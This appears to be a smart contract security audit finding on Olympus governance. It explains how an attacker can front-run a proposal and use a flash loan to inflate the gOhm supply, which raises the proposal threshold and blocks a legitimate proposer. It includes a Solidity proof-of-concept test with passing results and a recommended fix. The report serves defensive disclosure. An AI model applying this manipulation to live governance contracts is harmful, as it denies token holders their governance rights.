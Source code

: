 Odd Snowy Lemur

medium

# Proposals are susceptible to denial-of-service (DOS) attacks

## Summary
A user must surpass the proposal threshold to submit a proposal. A malicious user can potentially thwart this process by employing a flash loan to artificially inflate the total supply. Consequently, elevating the proposal threshold may lead to a scenario where the proposer's votes become insufficient compared to the heightened proposal threshold value.
## Vulnerability Detail
In the given scenario:

Assuming the totalSupply of gOhm is 1,000,000 * 10^18, and Alice's balance is 110,000 * 10^18, with a proposal threshold set at 100,000 * 10^18 based on the totalSupply. Since Alice holds more than the proposal threshold, she intends to propose a proposal.

However, Bob, observing Alice's intention, decides to prevent her proposal by front-running her transaction. Bob executes the following steps:

1. **Flash Loan and Staking:**
   - Bob utilizes a flash loan to acquire a substantial amount of Ohm and stakes them in gOhm, effectively increasing the totalSupply of gOhm.

2. **Minting gOhm:**
   - Bob mints 110,000 * 10^18 gOhm, causing the totalSupply to rise to 1,110,000 * 10^18.

3. **Increased Proposal Threshold:**
   - Due to the increased totalSupply, the proposal threshold is also raised to 111,000 * 10^18.

As a result of Bob's actions, Alice's proposal, with her 110,000 * 10^18 gOhm, is now below the new proposal threshold of 111,000 * 10^18. Consequently, Alice's proposal fails since her gOhm holdings are now insufficient relative to the heightened proposal threshold set by Bob's manipulation of the totalSupply.

`test :`
```solidity
   function testCorrectness_exploit() public{
        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        string[] memory signatures = new string[](1);
        bytes[] memory calldatas = new bytes[](1);
        string memory description = "Test Proposal";
        address bob = address(3);
        bytes memory Threshold = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature(
                "getProposalThresholdVotes()"
            )
        );
        uint Threshold1 = abi.decode(Threshold,(uint));
        assertEq(Threshold1,100000 * 10 ** 18); //Proposal Threshhold when the totalSupply = 1000_000 * 10 ** 18
        vm.roll(block.number + 1); // Rolling Block
        gohm.mint(bob,110030 * 10 ** 18); //Minting so that the totalsupply will increase

        bytes memory Threshold2 = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature(
                "getProposalThresholdVotes()"
            )
        );
        uint Threshold3 = abi.decode(Threshold2,(uint));
        assertEq(Threshold3,111003 * 10 ** 18); //bob influenced the threshold by minting.
        

        vm.prank(alice);
        bytes memory errorr = abi.encodeWithSignature("GovernorBravo_Proposal_ThresholdNotMet()");
        vm.expectRevert(errorr); //Revert due to Alice votes < proposalThreshhold 
        address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature(
                "propose(address[],uint256[],string[],bytes[],string)",
                targets,
                values,
                signatures,
                calldatas,
                description
            )
        );
    }

```

`Result :`
```solidity
[PASS] testCorrectness_executeSucceedsIfProposerBelowThresholdAndWhitelisted() (gas: 573728)
[PASS] testCorrectness_executeUpdatesProposalObjectExecutedState() (gas: 544673)
[PASS] testCorrectness_execute_case1() (gas: 708137)
[PASS] testCorrectness_execute_case2() (gas: 600170)
[PASS] testCorrectness_execute_case3() (gas: 1008213)
[PASS] testCorrectness_exploit() (gas: 81679) //Passing Test
[PASS] testCorrectness_getActions() (gas: 345355)
[PASS] testCorrectness_getProposalThresholdVotes() (gas: 81302)

```
## Impact
Proposals are susceptible to denial-of-service (DOS) attacks. An attacker could deploy a Miner Extractable Value (MEV) bot designed to front-run proposal transactions. This MEV bot executes a series of actions, including flash loan acquisition of Ohm, staking the acquired assets to mint gOhm, and consequently inflating the totalSupply of gOhm. The purpose of this attack is to render the proposal invalid by causing it to be reverted due to the altered totalSupply. By strategically manipulating the transaction order and the state of the system, the attacker disrupts the normal functioning of proposals, potentially causing them to fail
## Code Snippet
https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L135-L138
https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L690-L692
## Tool used

Manual Review

## Recommendation
If obtaining the totalSupply at a specific block is not feasible, it is advisable to adopt a fixed proposal threshold value and incorporate a setter function to adjust the threshold if needed. This approach provides a more stable and predictable mechanism for managing proposal thresholds, allowing for manual adjustments when required